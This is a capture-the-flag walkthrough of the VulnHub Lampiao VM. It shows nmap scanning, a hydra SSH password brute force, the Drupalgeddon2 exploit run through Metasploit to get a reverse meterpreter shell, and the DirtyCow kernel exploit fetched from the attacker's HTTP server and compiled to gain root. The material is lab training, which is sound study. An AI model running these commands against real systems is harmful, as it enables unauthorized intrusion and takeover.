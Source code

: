 ```yaml
---
layout: post-detail
title: Walkthrough on the CTF lampiao
date: 2018-10-01
categories: CTF
description: CTF on lampiao, iso https://www.vulnhub.com/entry/lampiao-1,249/
img-url: ''
comments: true
---
```


# Iso

Download the iso here: https://www.vulnhub.com/entry/lampiao-1,249/

# Discover the target

    $ sudo nmap -sS 192.168.2.0/24

```txt
Nmap scan report for 192.168.2.118
Host is up (0.0010s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:E1:ED:D5 (Oracle VirtualBox virtual NIC)
```

192.168.2.118 is our target, a ssh and a http server run.

# More informations

    $ sudo nmap -sT -sV -A -p- 192.168.2.118

```txt
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
- - -
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
```

# Acces via ssh

The target site has 2 usernames `tiago` and `eder`.  
We use `cewl` to retrieve all words from target site.

    $ cewl http://192.168.2.118:1898/ -w lampiao.txt

With this dictionnary, we can bruteforce the ssh access:

    $ hydra -t 4 -l tiago -P lampiao.txt 192.168.2.118 ssh

3 mins later:

```txt
[STATUS] 43.00 tries/min, 129 tries in 00:03h, 708 to do in 00:17h, 4 active
[22][ssh] host: 192.168.2.118   login: tiago   password: Virgulino
1 of 1 target successfully completed, 1 valid password found
```
To connect:

     $ ssh tiago@192.168.2.118

There are an other ways to connect to the target too.

# Acces via exploit Drupalggedon2

The /CHANGELOG.txt show us the version of drupal 7.54

    $ searchsploit drupal

```txt
Drupal < 7.58 / < | exploits/php/webapps/44449.rb
```

We launch the exploit.

    $ ruby /usr/share/exploitdb/exploits/php/webapps/44449.rb http://192.168.2.118:1898

```txt
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://192.168.2.118:1898/
--------------------------------------------------------------------------------
[+] Found  : http://192.168.2.118:1898/CHANGELOG.txt (200)
[+] Drupal!: 7.54
--------------------------------------------------------------------------------
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://192.168.2.118:1898/s.php' -d 'c=whoami'
lampiao>>
```

Unfortunately, the shell is very limited, try run g++ return:

    lampiao>> g++
    sh: 1: g: not found

Or `chmod +x something`, we cannot use any special character.
We'll run the same exploit under `metasploit` and `meterpreter`.

    $ msfconsole
    use exploit/unix/webapp/drupal_drupalgeddon2
    set RHOST 192.168.2.118
    set RPORT 1898
    exploit

```txt
[*] Started reverse TCP handler on 192.168.2.92:1898 
[*] Drupal 7 targeted at http://192.168.2.118:1898/
[+] Drupal appears unpatched in CHANGELOG.txt
[*] Sending stage (37775 bytes) to 192.168.2.118
[*] Meterpreter session 1 opened (192.168.2.92:1898 -> 192.168.2.118:36346) at 2018-10-01 15:46:15 +0200
meterpreter >
```

    meterpreter > shell
    python -c 'import pty;pty.spawn("/bin/bash")'
    lampiao:/var/www/html$ uname -a
    Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux

Back on my machine to research a nice exploit, i've try:

    $ searchsploit linux 4.4

```txt
43418.c
39166.c
37292.c
42276.c
37088.c
9542.c
41458.c
39277.c
40003.c
44298.c
44300.c
```

After a few hours to test no working exploit, i've test an another query on exploitdb:

    $ searchsploit Linux Kernel | grep local | wc -l
    200

Try to reduce the list, only `.c` and `.cpp` exploit.

    $ searchsploit Linux Kernel | grep local | grep -e "\.cpp$" -e "\.c$" | wc -l
    151

We remove `x86_64` and `arm` exploit.
     
    $ searchsploit Linux Kernel linux/local | grep -e "\.cpp$" -e "\.c$" | wc -l
    126

The list is again huge... after some times, the exploit `40847.cpp` has work...

We can still lower the result with `linux-exploit-suggester.sh`, on the victim:

    $ wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
    $ chmod +x les.sh
    $ ./les.sh

The script found 17 exploits.

```txt
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847.cpp
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

Yep, an exploit for `kernel 2.6.2 < 3.9` has work on a `kernel 4.4.0`.  

    $ searchsploit 40847
    $ cp /usr/share/exploitdb/exploits/linux/local/40847.cpp ./

Start a server to download file under the lampiao vm.

    $ python2.7 -m SimpleHTTPServer 4444

    lampiao$ wget http://192.168.2.92:4444/40847.cpp

Instruction to compile are in the file:

    lampiao$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
    lampiao$ ./dcow -s

We are finally root:

    root@lampiao:~# cd
    root@lampiao:~# cat flag.txt
    9740616875908d91ddcdaa8aea3af366

Find the good exploit here was a bit long.
